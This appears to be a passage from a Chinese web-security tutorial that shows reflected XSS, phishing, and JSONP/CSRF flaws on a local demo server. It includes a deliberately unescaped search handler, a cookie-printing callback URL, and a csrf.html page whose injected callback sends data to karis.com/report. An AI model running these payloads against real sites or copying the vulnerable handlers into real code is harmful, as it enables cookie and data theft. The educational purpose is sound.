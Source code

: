```js
    case "/search":
      ctx.type = "html";
      // ctx.set('x-xss-protection', '0') //禁止xss过滤
      // ctx.set('x-xss-protection', '1; mode=block')
      ctx.body = `您搜索的关键词是: '${ctx.query.keyword}'`;
    break;
```

钓鱼网站：页面跟别的网站一摸一样。域名不一样。

#### jsonp 的安全问题,CSRF

辣么，什么是 jsonp：

- jsonp 是利用`<script>`标签的 src 属性实现的跨域，只支持 get 方法。

- jsonp 将前端的方法作为参数传到服务端，再由服务端注入返回，实现服务端向客户端的通信。

而，csrf 又是什么呢？

- 攻击者盗用了你的身份，以你的名义发送恶意请求，比如 cookie 啊等等

我是一个小 🌰：

例子链接：[http://localhost:3000/jsonp.html?callback=console.log(document.cookie);void]http://localhost:3000/jsonp.html?callback=console.log(document.cookie);void

浏览器的 callback 之后就会打印出 cookie。

```html
<body>
  <script>
    var callback = (location.search.match(/callback=([\\w\\W]+)/i) || [])[1];
    var $script = document.createElement("script");
    $script.src = "/api/jsonp?callback=" + callback;
    document.body.appendChild($script);
  </script>
</body>
```

在我们用浏览器打开 csrf.html 的文件的时候，又会发生什么意外呢？

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <meta http-equiv="X-UA-Compatible" content="ie=edge" />
    <title>csrf</title>
    <script>
      window.onerror = function() {
        console.error(arguments);
      };
    </script>
  </head>
  <body>
    <h1>hello world</h1>
    <script src="http://localhost:3000/api/jsonp?callback=(new%20Image).src%3D%22http%3A%2F%2Fkaris.com%3A3000%2Freport%3Fdata%3D%22%2BJSON.stringify"></script>
  </body>
</html>
```
